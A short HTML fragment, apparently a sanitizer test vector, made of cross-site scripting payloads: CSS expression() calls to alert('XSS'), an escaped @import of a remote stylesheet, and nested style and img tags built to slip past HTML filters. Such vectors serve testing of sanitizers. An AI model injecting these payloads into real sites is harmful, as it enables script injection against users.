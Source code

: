
<div style="width: expression(alert('XSS'));"><style>@im\port'http://\test';</style><img style="xss:expr/*XSS*/ession(alert('XSS'))"><img src="x"><style><img src="</style><img src="x">
